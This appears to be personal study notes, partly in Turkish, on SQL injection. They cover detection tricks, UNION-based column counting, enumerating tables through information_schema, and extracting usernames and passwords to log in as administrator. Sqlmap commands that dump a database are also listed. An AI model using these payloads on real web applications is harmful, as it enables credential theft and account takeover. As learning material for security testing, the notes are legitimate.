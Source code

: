


select * from users order by 4; -> 2.sütuna göre alfetik olarak sıralar, fakat 3 tane sütun varsa hata verir, bizde bu şekilde 3 tane sütun olduğunu anlamış oluruz.

select * username from users union select id, from emails; -> users tablosundaki username sütunu ile emails tablosundaki id sütununu birleştirir alt alta.

![Uploading Screenshot_1.png…]()


						1# Detection of vulnerability

Way #1:
	Birinci sorgu ve sonucu
		SELECT * FROM haberler WHERE id=1
		<html>
		MDISEC
		</html>
	İkinci sorgu ve sonucu
		SELECT * FROM haberler WHERE id=2-1
		<html>
		MDISEC
		</html>

id kısmına 1 yazdığında gelen sonuç referans noktan 2 yazdığında sonuç değişiyor ve 2-1 yaptığında 1 ile aynı sonuç geliyorsa demekki zafiyet var.

Way #2:

query #1 : SELECT * FROM haberler WHERE id=1'
response : 500 internal server error response code


query #2 : SELECT * FROM haberler WHERE id=1'--
response : 200 response code

-------------------------------------------------------------------------------------------------
						#2 Exploitation of weakness

||||||||||||||||||||||||||||||||||||||||||||
#UNION SQLi

Goal -> Determine the number of the columns returned by the query.
	Background :
	table1		table2
	a | b		c | d
	-----		-----
	1  2		2  3
	3  4		4  5
	Query #1: select a,b from table 1
	1,2
	3,4
	Query #2: select a,b from table 1 UNION select c,d from table2
	1,2
	3,4
	2,3
	4,5
	Rule:
	- The number and the order of the columns must be the same in all queries
	- The data types must be compatible
	
	SQLi Attack (way #1):
	select ? from table1 UNION select NULL
	-error -> incorrect number of columns
	
	select ? from table1 UNION select NULL,NULL,NULL
	-200 response code -> correct number of columns
	
	' UNION SELECT NULL--
	' UNION SELECT NULL,NULL--
	' UNION SELECT NULL,NULL,NULL--
	etc.
	
	Sqli attack (way #2):
	select a,b from table1 order by 3
	-error -> incorrect number of columns, there are 2 columns that a and b.
	
	' ORDER BY 1--
	' ORDER BY 2--
	' ORDER BY 3--
	etc.


Goal -> Finding columns with a useful data type

	After you determine the number of columns, you can probe each column to test whether it can hold string data.
	
	' UNION SELECT 'a',NULL,NULL,NULL--
	' UNION SELECT NULL,'a',NULL,NULL--
	' UNION SELECT NULL,NULL,'a',NULL--
	' UNION SELECT NULL,NULL,NULL,'a'--
	
	If the column data type is not compatible with string data, the injected query will cause a databese error, such as:
	"Conversion failed when converting the varchar value 'a' to data type int."


Goal -> Using a SQL injection UNION attack to retrieve interesting data

	' UNION SELECT username, password FROM users--


Goal -> Retrieving multiple values within a single column

	1# find the number of columns that the vulnerable is using:
	
	' order by 1-- -> not displayed on the page
	' order by 2-- -> displayed on the page
	' order by 3-- -> internal server error
	
	2# Find which columns contain text
	
	' UNION SELECT 'a', NULL-- -> internal server error
	' UNION SELECT NULL, 'a'-- -> 200 code response
	
	3# Output data from other tables
	
	' UNION SELECT NULL, username FROM users--
	' UNION SELECT NULL, password FROM users--
	OR
	first learn the String Concatenation with version command:
	' UNION SELECT NULL,username || '~' || password FROM users--
	' UNION select NULL,username || password from users--



Goal -> Output the content of the table

	1# Find the number of columns
	' order by 2--
	
	2# Find the data type of the columns
	' UNION SELECT 'a', 'b'--
	
	3# Version of the database (To learn the database name)
	' UNION SELECT 'a', version()--  (for example : PostgreSQL 12.20)
	
	4# Output the list of the table names in the database
	SELECT * FROM information_schema.tables -> postgreSQL
	' UNION SELECT table_name,NULL FROM information_schema.tables
	users_aclxxp
	
	5# Output the list of the column names in the database
	SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' -> postgreSQL
	' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_aclxxp'-- 
	
	6# Output the username and passwords
	' UNION SELECT username, password FROM users--
	
	and login as a administrator.

||||||||||||||||||||||||||||||||||||||||||||


















🗲SqlMap
  #sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user  -> Testing on parameter names "user", we'll get confirmation
  #sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump  -> Dumping database
  #sqlmap.py -r /home/request.txt --dbs -> Login page username sqli detect.(https://infosecwriteups.com/sql-injection-for-beginners-using-sqlmap-36e091e8a070)
  #sqlmap.py -r /home/request.txt --dbs --level 5 -> parameter sql detect.(https://infosecwriteups.com/sql-injection-for-beginners-using-sqlmap-part-2-53e9775b67f5)



🗲Ghauri (https://github.com/r0oth3x49/ghauri)

🗲SqlFinder (https://github.com/americo/sqlifinder/tree/main)

🗲Blisqy (https://github.com/JohnTroony/Blisqy)


#(Knowing what database we are dealing with makes it easier to understand how to construct our malicious queries)
